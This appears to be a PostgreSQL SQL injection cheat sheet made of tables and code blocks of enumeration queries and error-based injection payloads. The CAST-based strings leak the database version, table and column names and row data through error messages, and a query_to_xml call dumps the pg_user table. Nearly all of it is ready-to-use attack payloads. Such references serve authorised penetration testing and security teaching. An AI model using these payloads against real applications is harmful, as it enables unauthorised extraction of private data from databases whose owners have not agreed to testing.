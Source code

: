 ## PostgreSQL Methodology

| Description            | SQL Query                                    |
| ---------------------- | -------------------------------------------- |
| List Schemas           | `SELECT DISTINCT(schemaname) FROM pg_tables` |
| List Databases         | `SELECT datname FROM pg_database`            |
| List Tables            | `SELECT table_name FROM information_schema.tables` |
| List Tables            | `SELECT table_name FROM information_schema.tables WHERE table_schema='<SCHEMA_NAME>'` |
| List Tables            | `SELECT tablename FROM pg_tables WHERE schemaname = '<SCHEMA_NAME>'` |
| List Columns           | `SELECT column_name FROM information_schema.columns WHERE table_name='data_table'` |

## PostgreSQL Error Based

| Name         | Payload         |
| ------------ | --------------- |
| CAST | `AND 1337=CAST('~'\|\|(SELECT version())::text\|\|'~' AS NUMERIC) -- -` |
| CAST | `AND (CAST('~'\|\|(SELECT version())::text\|\|'~' AS NUMERIC)) -- -` |
| CAST | `AND CAST((SELECT version()) AS INT)=1337 -- -` |
| CAST | `AND (SELECT version())::int=1 -- -` |

```sql
CAST(chr(126)||VERSION()||chr(126) AS NUMERIC)
CAST(chr(126)||(SELECT table_name FROM information_schema.tables LIMIT 1 offset data_offset)||chr(126) AS NUMERIC)--
CAST(chr(126)||(SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset)||chr(126) AS NUMERIC)--
CAST(chr(126)||(SELECT data_column FROM data_table LIMIT 1 offset data_offset)||chr(126) AS NUMERIC)
```

```sql
' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```

### PostgreSQL XML Helpers

```sql
SELECT query_to_xml('select * from pg_user',true,true,''); -- returns all the results as a single xml row
```
